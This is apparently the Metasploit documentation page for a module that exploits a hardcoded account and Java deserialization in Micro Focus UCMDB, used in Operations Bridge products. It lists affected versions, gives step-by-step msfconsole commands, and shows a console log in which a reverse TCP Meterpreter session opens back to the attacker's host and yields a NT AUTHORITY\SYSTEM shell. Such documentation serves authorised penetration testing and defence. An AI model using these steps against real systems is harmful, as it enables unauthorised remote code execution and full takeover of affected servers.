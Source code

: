 ## Vulnerable Application

UCMDB is the vulnerable component, which is integrated into many Micro Focus products. MF have confirmed that the
following are affected by the hardcoded account vulnerability:

* Operation Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older
  versions
* Application Performance Management versions: 9.51, 9.50 and 9.40 with uCMDB 10.33 CUP 3
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

An additional number of applications are vulnerable to the Java deserialization. Note that this module leverages both
vulnerabilities, so it should only work in the above.

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Both Linux and Windows installations are affected.

NOTE: At the time of writing this (24/01/2021), Metasploit ysoserial Linux payloads (except cmd/unix/generic) are
broken! Remove this comment once this all works, and change the default payload from `cmd/unix/generic` to
`cmd/unix/reverse_python` in the module code.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_ucmdb_unauth_deser`
4. `set rhost TARGET'
5. `set lhost YOUR_IP`
6. `set target 0|1`
7. `run`
8. You should get a shell.

## Scenarios

```
msf6 > use exploit/multi/http/microfocus_ucmdb_unauth_deser
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > set rhost 10.0.0.100
rhost => 10.0.0.100
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > check
[+] 10.0.0.100:8443 - The target is vulnerable.
msf6 exploit(multi/http/microfocus_ucmdb_unauth_deser) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.100:8443 - Attacking Windows target
[+] 10.0.0.100:8443 - Succesfully authenticated and obtained our cookie!
[*] 10.0.0.100:8443 - Sending payload to /services/DataAcquisitionService
[+] 10.0.0.100:8443 - Success, shell incoming!
[*] Sending stage (175174 bytes) to 10.0.0.100
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.100:50733) at 2021-01-24 22:16:36 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 15244 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\HPBSM\ucmdb\bin>whoami
whoami
nt authority\system

C:\HPBSM\ucmdb\bin>
```
